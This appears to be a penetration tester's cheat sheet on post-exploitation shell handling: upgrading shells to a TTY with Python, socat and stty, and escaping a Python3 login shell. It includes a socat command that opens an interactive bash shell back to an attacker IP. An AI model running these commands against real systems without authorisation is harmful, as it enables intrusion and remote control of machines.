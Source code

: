 # Post Exploitation Shell Cheat Sheet
All techniques that I use each day during penetration testing are in this module.
## Upgrading shell to a TTY
This section of this module focuses on how to upgrade your nonTTY shell using various methods and resources located on the target system.
### Using Python:
To use Python to upgrade to a TTY from your spanwed shell do,

`python -c 'import pty; pty.spawn("/bin/bash")'`

### Using SOCAT:
To use Socat, first start the listener on the attacker machine with,

`socat file:`tty`,raw,echo=0 tcp-listen:4444`

Then, start the bind from the target machine with,

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:(attacker IP):4444`

### Using STTY:
`reset`

`export SHELL=bash`

`export TERM=xterm-256color`
## Escaping Python3 Shell
If Python3 is listed as the shell type for a user in the `/etc/passwd` file like so,
```
daniel:x:1002:1005::/home/daniel:/usr/bin/python3
```
You can simply escape the Python3 `>>>` shell with the following two commands,
```
>>> import subprocess
>>> subprocess.call("/bin/bash")
```
This might be sueful to drop you back to a normal LINUX Bash shell if required, or to make further enumeration easier.
